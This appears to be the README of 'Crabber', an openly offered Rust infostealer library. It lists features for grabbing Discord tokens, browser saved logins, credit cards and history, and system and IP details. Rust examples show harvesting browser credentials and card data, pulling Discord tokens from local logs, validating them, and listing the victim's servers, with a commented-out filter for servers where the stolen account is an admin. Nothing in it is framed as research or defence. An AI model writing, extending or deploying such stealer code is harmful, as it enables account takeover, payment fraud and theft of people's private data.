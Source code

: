 
# Crabber

An info grabber library written in rust (still in early stages)


## Features

- discord
    - tokens
    - user info
- browser
    - login datas
    - credit cards
    - history
- system
    - User info
    - ip info

more features will be added in near future


## Examples
```toml
[dependencies]
crabber = { git = "https://github.com/crabman17/crabber.git", features = ["all"] }
```
### browser
```rust
use crabber::Browser;
    
let mut browser_data = Browser::new();
browser_data.refresh_all().unwrap();

println!("{:#?}", browser_data.get_logins());
println!("{:#?}", browser_data.get_creditcards());
println!("{:#?}", browser_data.get_browser_history());
```

### system
```rust
use crabber::system;

// if these function fail, they will output string
println!("{}", system::get_realname());
println!("{}", system::get_username());
println!("{}", system::get_hostname());
println!("{}", system::get_devicename());
```

### discord
This asynchronous example uses [Tokio](https://tokio.rs), So make sure to add it in your `Cargo.toml`
```rust
#[tokio::main]
async fn main () {

    use crabber::discord::{
        Client,
        grabber
    };

    // capturing tokens from local logs
    // [the Set will be empty if it couldn't find any tokens]
    let tokens = grabber::capture_tokens_from_logs().unwrap();

    let mut client = Client::new(String::new()); 

    for token in tokens {
        client.set_token(token);
        if client.is_token_valid().await.is_ok() {

            let user = client.get_user().await.unwrap();
            println!("{:#?}", user);

            let guilds = client.get_guilds().await.unwrap();
            println!("{:#?}", guilds);

            // use crabber::discord::Guild;
            // let hq_guilds: Vec<Guild> = guilds
            //     .into_iter()
            //     .filter(|g| {
            //         g.is_admin()
            //     })
            //     .collect();

            // if hq_guilds.is_empty() {
            //     println!("no hq guild found");
            // } else {
            //     println!("Hq Guild -> {:#?}", hq_guilds);
            // }
        }
    }
}
```

### ip 
This is also asynchronous
```rust
#[tokio::main]
async fn main() {
    let ip_info = crabber::ip::get_ip_info().await.unwrap();
    println!("{:#?}", ip_info);
}
```
